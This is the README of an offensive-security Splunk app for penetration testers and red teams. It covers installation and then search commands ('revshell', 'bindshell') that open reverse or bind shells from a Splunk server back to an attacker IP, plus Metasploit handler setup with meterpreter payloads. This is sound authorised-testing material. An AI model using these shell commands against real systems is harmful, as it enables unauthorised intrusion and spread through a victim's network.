 Splunk Shells App
Version 1.2

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
Using each of these shells can be done from the Search and Reporting app. Setup a handler first then execute one of the following searches:

## Setup Metasploit Handler

use multi/handler<br>

Pick one of the below

set payload python/meterpreter_reverse_tcp<br>
set payload python/meterpreter_bind_tcp<br>
set payload python/shell_reverse_tcp<br>
set payload python/shell_bind_tcp<br>

set LHOST <ATTACKER IP><br>
set LPORT <ATTCKER PORT><br>
exploit -j<br>

## Bind Shell

`| bindshell SHELLTYPE PORTNUMBER` 

SHELLTYPE - Specify std or msf<br>
std = Standard Shell<br>
msf = Meterpreter Shell<br>

PORTNUMBER - Specify the port you want the bind shell to listen on.<br>
Defaults to 8888


## Reverse Shell

`| revshell SHELLTYPE ATTACKERIP ATTACKERPORT`

SHELLTYPE - Specify std or msf<br>
std = Standard Shell<br>
msf = Meterpreter Shell<br>

ATTACKERIP - Specify the IP that you want the shell to be sent back to. 

ATTACKERPORT - Specify the port you want the shell to be sent back to.
